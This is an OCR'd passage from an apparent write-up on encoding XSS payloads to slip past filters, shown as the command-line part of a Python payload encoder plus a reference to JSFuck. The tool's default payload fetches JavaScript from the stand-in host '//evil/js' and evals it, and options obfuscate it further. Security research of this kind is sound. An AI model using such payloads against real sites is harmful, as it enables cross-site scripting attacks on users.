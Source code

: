 ```python
        supported.''')
    parser.add_argument('-p', '--payload', dest='payload',
        default="fetch('%%SCRIPT%%').then(r=>r.text().then(eval)))",
        metavar='STRING', help='''Raw payload. %%SCRIPT%% will be
        replaced with the URL of the external script.''')
    parser.add_argument('-x', '--script', dest='script',
        default="//evil/js", metavar='STRING',
        help='''URL for the external script''')
    parser.add_argument('-e', '--encoding', dest='encoding',
        default='num_to_string', metavar='NAME',
        choices=['num_to_string', 'split_to_len'],
        help='''Type of payload encoding. More types to come
        soon...''')
    parser.add_argument('--singleQ', dest='quote',
        default='"', action='store_const', const="'",
        help='''Use single quotes for concatenating.''')
    parser.add_argument('-d','--debug', dest='loglevel',
        default=logging.INFO, action='store_const',
        const=logging.DEBUG,
        help='''Be very verbose.''')
    parser.add_argument('--toString', dest='to_string',
        default='toString', metavar='STRING',
        help='''String to use instead of "toString" when
        encoding payload as <num>["toString"](36).''')
    parser.add_argument('--maxLen', dest='max_len',
        default=15, metavar='NUMBER', type=int,
        help='''Maximum length to use when
        splitting payload.''')
    parser.add_argument('--maxInt', dest='max_int',
        default=MAX_JS_INT, metavar='NUMBER', type=int,
        help='''Maximum integer to use when
        encoding payload as <num>["toString"](36).''')
    args = parser.parse_args()
    
    logger.setLevel(args.loglevel)
    
    p = Payload(args.payload.replace('%%SCRIPT%%', args.script),
            args.to_string)
    
    print '%s' % getattr(p, 'as_'+args.encoding)(**vars(args))
```

# References and further reading

* The [*Dealing with capitalization*](#dealing-with-capitalization) solution was inspired by [JSFuck](http://www.jsfuck.com/). In comparison it allows a lot more characters (all except lowercase letters). Consequently it's a lot less verbose than JSFuck.

